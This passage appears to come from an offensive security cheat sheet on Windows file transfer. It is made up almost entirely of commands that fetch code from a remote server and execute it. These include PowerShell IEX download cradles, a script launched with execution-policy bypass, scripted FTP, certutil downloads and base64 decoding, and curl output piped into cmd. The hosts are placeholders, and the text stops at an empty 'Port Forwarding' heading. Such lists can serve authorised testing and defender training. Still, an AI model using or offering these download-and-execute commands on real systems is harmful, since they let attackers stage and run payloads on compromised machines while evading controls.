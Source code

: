 PowerShell One-Line Script Execution in Memory
```PowerShell
IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
```

PowerShell with Proxy
```PowerShell
$browser = New-Object System.Net.WebClient;
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('https://server/script.ps1'));
```

PowerShell Script
```PowerShell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://server/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

Non-interactive FTP via text file. Useful for when you only have limited command execution.
```CMD
echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
		
ftp -v -n -s:ftp.txt
```

CertUtil
```CMD
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
```

Certutil can also be used for base64 encoding/decoding.
```CMD
certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
```

CURL
```CMD
curl http://server/file -o file
curl http://server/file.bat | cmd
```

And with PowerShell
```PowerShell
IEX(curl http://server/script.ps1);Invoke-Blah
```

### Port Forwarding
